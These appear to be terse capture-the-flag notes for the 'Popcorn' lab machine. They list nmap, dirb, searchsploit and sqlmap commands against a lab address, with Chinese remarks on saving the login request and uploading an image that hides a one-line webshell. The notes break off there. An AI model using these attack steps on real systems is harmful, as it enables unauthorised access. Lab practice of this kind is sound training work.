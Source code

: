 

#Popcorn
``` 
nmap -sC -sV -oA nmap/popscorn 10.10.10.6

```
![](img/Popcorn-img1.png)
``` 
dirb http://10.10.10.6 -r -o tmp.dir

searchsploit "tarrent hoster"
searchsploit -x 11746.txt
```
尝试登录，request信息存为txt，用sqlmap
``` 
sqlmap -r login.req --level 5 --risk 3
```
上传图片，图片包含一句话


